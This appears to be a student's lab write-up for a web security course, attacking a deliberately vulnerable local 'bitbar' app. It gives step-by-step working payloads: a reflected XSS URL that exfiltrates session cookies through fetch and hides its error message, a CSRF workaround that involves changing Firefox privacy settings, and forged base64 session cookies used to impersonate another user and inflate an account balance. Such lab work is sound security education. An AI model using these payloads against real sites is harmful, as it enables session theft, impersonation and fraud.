 # Project 1

## Team members

- PRO
- zzh

## Procedure

### a

1. Test HTML injection via: `http://localhost:3000/profile?username=<script>alert(1);</script>`, which works.
2. Try `http://localhost:3000/profile?username=hack<script>location.href="/steal_cookie?session_cookie="+document.cookie</script>`, but `+` got interpreted as space.
3. Simple fix: ```http://localhost:3000/profile?username=hack<script>location.href=`/steal_cookie?session_cookie=${document.cookie}`</script>```, but the redirect would be visible to user.
4. Using `fetch`: ```http://localhost:3000/profile?username=hack<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);</script>```
5. Fixing `User does not exist`: ```http://localhost:3000/profile?username=<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);document.querySelector("p.error").remove();</script>```

### b

Having tried `<form>`, `XMLHttpRequest` and `fetch`, but all of them refused to send cookies: `Partitioned cookie or storage access was provided to “http://localhost:3000/post_transfer” because it is loaded in the third-party context and dynamic state partitioning is enabled.`. The root cause is that, on firefox:

> A request to access cookies or storage was partitioned because it came from a third-party (a different origin) and dynamic state partitioning is enabled.

Our request does not come from `localhost:3000`, so firefox refuses to send it with cookie.

**Solution**: Change [firefox settings](about:preferences#privacy) according to the image.

![Firefox](./images/firefox.jpg)

After changing the settings and re-visiting our HTML, the attack shall succeed:

![Success](./images/success.jpg)

### c

Let's inspect `document.cookie`:

```text
session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6ImF0dGFja2VyIiwiaGFzaGVkUGFzc3dvcmQiOiIwZmM5MjFkY2NmY2IwNzExMzJlNzIzODVmMTBkOTFkY2IyMTM5ODM3OTJkZmU5M2RlOGI1ZDMyNzRiNWE1Y2Y1Iiwic2FsdCI6IjIxODM0NzA4NDkyOTcwODYwMzY4OTQwNzEwMTMxNTYwMjE4NzQxIiwicHJvZmlsZSI6IiIsImJpdGJhcnMiOjc2fX0=
```

The value of `session` seems to be base64-encoded. Let's decode and see what it contains:

```json
{
    "loggedIn": true,
    "account": {
        "username": "attacker",
        "hashedPassword": "0fc921dccfcb071132e72385f10d91dcb213983792dfe93de8b5d3274b5a5cf5",
        "salt": "21834708492970860368940710131560218741",
        "profile": "",
        "bitbars": 76
    }
}
```

By inspecting `router.js`, we see that once logged in, the server won't check the correctness of password. So we can simply change `account.username` to `user1`, `account.bitbars` to `200` and base64-encode it. Here's our final script:

```javascript
document.cookie = "session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6InVzZXIxIiwiaGFzaGVkUGFzc3dvcmQiOiIwZmM5MjFkY2NmY2IwNzExMzJlNzIzODVmMTBkOTFkY2IyMTM5ODM3OTJkZmU5M2RlOGI1ZDMyNzRiNWE1Y2Y1Iiwic2FsdCI6IjIxODM0NzA4NDkyOTcwODYwMzY4OTQwNzEwMTMxNTYwMjE4NzQxIiwicHJvZmlsZSI6IiIsImJpdGJhcnMiOjIwMH19";
```

### d

From our exploit at [c](#c), we learn that we can modify `account.bitbars` to any value of our choice. However, since username and other details are unknown, we need to generate our payload real-time using JavaScript:

```javascript
const b64 = document.cookie.slice(8);
const data = JSON.parse(atob(b64));
data.account.bitbars = 1000001;
const payload = btoa(JSON.stringify(data));
document.cookie = "session=" + payload;
```

After executing the code and performing a $\$1$ transaction, the balance of our account shall be $\$1000000$.

### e

### f

### g



## References

- Detailed guide on how to install docker: https://lindevs.com/install-docker-ce-on-ubuntu/
- https://stackoverflow.com/questions/168455/how-do-you-post-to-an-iframe
- https://developer.mozilla.org/en-US/docs/Web/Privacy/Storage_access_policy/Errors/CookiePartitionedForeign
- https://stackoverflow.com/questions/35325370/how-do-i-post-a-x-www-form-urlencoded-request-using-fetch
